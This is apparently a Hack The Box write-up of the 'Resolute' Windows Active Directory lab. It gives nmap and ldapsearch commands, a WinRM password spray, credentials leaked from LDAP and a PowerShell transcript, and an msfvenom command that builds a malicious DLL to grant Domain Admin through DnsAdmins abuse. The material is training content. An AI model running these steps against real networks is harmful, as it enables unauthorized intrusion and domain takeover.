 ```yaml
---
layout: single
title: 'Resolute Write-Up: Hack The Box'
excerpt: "Resolute was a straight-forward *medium*-rated machine on Hack The Box created by egre55. Initial recon revealed an open LDAP service which leaked all local users and a default password. This allowed a password spray WinRM and a successful login as user `melanie`. As `melanie`, further machine enumeration revealed PowerShell transcripts that leaked a command containing user `ryan`'s password. User `ryan` is part of the `Contractors` group, which is also contained in the `DnsAdmin` group. Being a member of the `DnsAdmin` is abused to add the first compromised user `melanie` as a `Domain Admin`, owning the machine."
classes: wide
categories: [hackthebox]
date: 2020-05-30
tags: [hackthebox, dns, hacking, penetration testing, write-ups]
header:
  teaser: \assets\images\htb\resolute\resolute-banner.png
  teaser_home_page: true
toc: true
toc_label: "Table of Contents"
toc_icon: "database"  # corresponding Font Awesome icon name (without fa prefix)
# toc_sticky: true
---
```

![](\assets\images\htb\resolute\resolute-banner.png)
## TL;DR
Resolute was a straight-forward *medium*-rated machine on Hack The Box created by egre55. Initial recon revealed an open LDAP service which leaked all local users and a default password. This allowed a password spray using WinRM and a successful login as user `melanie`. As `melanie`, further machine enumeration revealed PowerShell transcripts that leaked a command containing user `ryan`'s password. User `ryan` is part of the `Contractors` group, which is also contained in the `DnsAdmin` group. Being a member of the `DnsAdmin` is abused to add the first compromised user `melanie` as a `Domain Admin`, owning the machine.

## Nmap Port Scan
`nmap -sCV -Pn -n -p- -T4 -oN nmap/full-resolute 10.10.10.169`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 20:36 EDT
Nmap scan report for 10.10.10.169
Host is up (0.029s latency).                      
Not shown: 65511 closed ports                     
PORT      STATE SERVICE      VERSION              
53/tcp    open  domain?                           
| fingerprint-strings:                            
|   DNSVersionBindReqTCP:                                                                                            
|     version                                     
|_    bind                                        
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-04-27 00:44:46Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                                                                                                                                                                
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?  
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0        
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped                                                                                           
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                          
|_http-title: Not Found    
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49712/tcp open  msrpc        Microsoft Windows RPC
65424/tcp open  unknown

Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## LDAP Enumeration

A default password is shown via the description for user `marko`.
```
Marko Novak, Employees, MegaBank Users, megabank.local                                                             
dn: CN=Marko Novak,OU=Employees,OU=MegaBank Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user 
cn: Marko Novak                                           
sn: Novak 
description: Account created. Password set to Welcome123!
[TRUNCATED]
sAMAccountName: marko
sAMAccountType: 805306368
userPrincipalName: marko@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local                                            
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927131714.0Z
dSCorePropagationData: 16010101000001.0Z
```

I was unable to get any usage from the `Welcome123!` password and `Marko`, so I created a username list and used Metasploit's WinRM Login module to test the password against the remainder of the accounts.

`ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" '(objectClass=Person)' | grep userPrincipalName | cut -d " " -f 2 | cut -d "@" -f 1 > users.txt`

We got a hit on user `melanie`.
![](\assets\images\htb\resolute\resolute-winrm-scan.png)

## Machine Compromise

I used evil-WinRM to get a shell and grabbed the user flag.
![](\assets\images\htb\resolute\resolute-melanie-login.png)

Looking at the root directory, we see an interesting folder that is hidden. This leads to an file that leaks the user Ryan's password.

*File Location:*
`C:\PStranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

*Line Containing Password Leak:*
```
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

## Pivoting to DNS Admin

Using Evil-WinRM I logged in with Ryan and noticed he was part of a `Contractors` group. I love Bloodhound, so I used this opportunity to run it to enumerate everything that's going on in the AD structure.

Ryan was a member of the `Contractors` group, but what is interesting is that `Contractors` are a member of `DnsAdmins` group. Privileges!
![](\assets\images\htb\resolute\resolute-bloodhound.png)

After some research, I followed these blog posts that outline a privilege escalation via a feature abuse in AD where a user who is member of the DNSAdmins group or have write privileges to a DNS server object can load an arbitrary DLL with SYSTEM privileges on the DNS server:
[Abusing DNSAdmins privilege for escalation in Active Directory](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html){:target="_blank"}  
[From DnsAdmins to SYSTEM to Domain Compromise](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise){:target="_blank"} 

In accordance with the blog post, I created a malicous DLL that will add Melanie to the Domain Admins group:  
`msfvenom -a x64 -p windows/x64/exec cmd='net group "domain admins" melanie /add /domain' -f dll -o mel.dll`

![](\assets\images\htb\resolute\resolute-dnscmd-entry.png)

## Domain Admin Escalation

Now we  can log in with Melanie and grab the root flag:
![](\assets\images\htb\resolute\resolute-root.png)

Thanks for reading!